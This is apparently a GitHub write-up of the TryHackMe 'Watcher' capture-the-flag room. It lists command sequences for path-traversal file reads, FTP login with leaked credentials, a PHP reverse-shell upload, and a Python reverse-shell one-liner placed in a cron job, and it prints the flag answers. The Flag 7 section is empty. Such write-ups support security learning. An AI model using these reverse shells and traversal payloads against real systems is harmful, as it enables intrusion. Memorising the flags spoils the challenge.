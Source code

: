 # <div align="center">[Watcher](https://tryhackme.com/r/room/watcher)</div>
<div align="center">A boot2root Linux machine utilising web exploits along with some common privilege escalation techniques.</div>

<div align="center">
<img src="https://github.com/user-attachments/assets/7d7d90e8-a152-4829-bb39-6fb14cab3727" height="200"></img>
</div>

# Task 1. Watcher

Work your way through the machine and try to find all the flags you can!

Flag 1

* ```nmap -sSCV <IP>```
* ```curl -s http://<IP>/robots.txt```
* ```curl -s http://<IP>/flag_1.txt```
```
FLAG{robots_dot_text_what_is_next}
```
Flag 2
* ```curl -s http://<IP>/secret_file_do_not_read.txt```
* ```curl -s http://<IP>/post.php?post=/etc/passwd```
* ```curl -s http://<IP>/post.php?post=secret_file_do_not_read.txt```
* ```ftp <IP>```
* ```ftpuser:givemefiles777```
* ```ls -la```
* ```get flag_2.txt -```
```
FLAG{ftp_you_and_me}
```
Flag 3
* ```ftp <IP>```
* ```ftpuser:givemefiles777```
* ```cd files```
* ```ls -la```
* ```put rev.php```
* ```ls -la```
* ```pwd```
* ```exit```
* ```curl -s http://<IP>/post.php?post=/home/ftpuser/ftp/files/rev.php```
* ```nc -nlvp 4444```
* ```python3 -c "import pty;pty.spawn('/bin/bash')"```
* ```id```
* ```find / -type f -name flag_3.txt 2>/dev/null```
* ```cat /var/www/html/more_secrets_a9f10a/flag_3.txt```
```
FLAG{lfi_what_a_guy}
```
Flag 4
* ```find / -type f -name flag_4.txt -exec ls -l {} + 2>/dev/null```
* ```sudo -l```
* ```sudo -u toby /bin/bash```
* ```cat /home/toby/flag_4.txt```
```
FLAG{chad_lifestyle}
```
Flag 5
* ```find / -type f -name flag_5.txt -exec ls -l {} + 2>/dev/null```
* ```cat note.txt```
* ```cat /etc/crontab```
* ```ls -l /home/toby/jobs/cow.sh```
* ```cat > /home/toby/jobs/cow.sh << EOF```
* ```#!/bin/bash```
* ```python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<IP>",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'```
* ```EOF```
* ```nc -nlvp 4444```
* ```python3 -c "import pty;pty.spawn('/bin/bash')"```
* ```cd /home/mat```
* ```cat flag_5.txt```
```
FLAG{live_by_the_cow_die_by_the_cow}
```
Flag 6
find / -type f -name flag_6.txt -exec ls -l {} + 2>/dev/null
cat /home/mat/note.txt
sudo -l
cat /home/mat/scripts/will_script.py
cat cmd.py

vim cmd.py
      
* ```sudo -u will /usr/bin/python3 /home/mat/scripts/will_script.py 1```
* ```nc -nlvp 5555```
* ```python3 -c "import pty;pty.spawn('/bin/bash')"```
* ```id```
* ```cd /home/will```
* ```cat flag_6.txt```
Flag 7
* ```
* ```
* ```
* ```
* ```
* ```
* ```
* ```
* ```
* ```
* ```
* ```
```
```

